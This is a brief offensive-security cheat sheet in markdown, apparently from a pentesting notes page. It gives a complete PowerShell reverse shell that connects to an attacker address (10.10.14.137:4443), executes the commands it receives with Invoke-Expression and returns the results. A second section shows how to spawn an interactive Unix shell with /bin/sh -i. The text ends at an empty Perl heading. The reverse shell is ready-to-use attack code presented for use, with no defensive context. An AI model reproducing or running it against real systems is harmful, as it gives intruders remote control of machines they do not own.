
---

# Reverse Shells

# Powershell:

```powershell

$client = New-Object System.Net.Sockets.TCPClient('10.10.14.137', 4443)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535 | ForEach-Object { 0 }

while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = ([System.Text.Encoding]::ASCII).GetString($bytes, 0, $i)
    $sendback = (Invoke-Expression $data 2>&1 | Out-String)
    $sendback2 = $sendback + 'PS ' + (Get-Location).Path + '> '
    $sendbyte = ([System.Text.Encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte, 0, $sendbyte.Length)
    $stream.Flush()
}
$client.Close()


```


---

# Interactive Shells
# UNIX:

## /bin/sh -i

This command will execute the shell interpreter specified in the path in interactive mode (`-i`).

#### Interactive

  Spawning Interactive Shells

```bash
/bin/sh -i
sh: no job control in this shell
sh-4.2$
```

---

## Perl
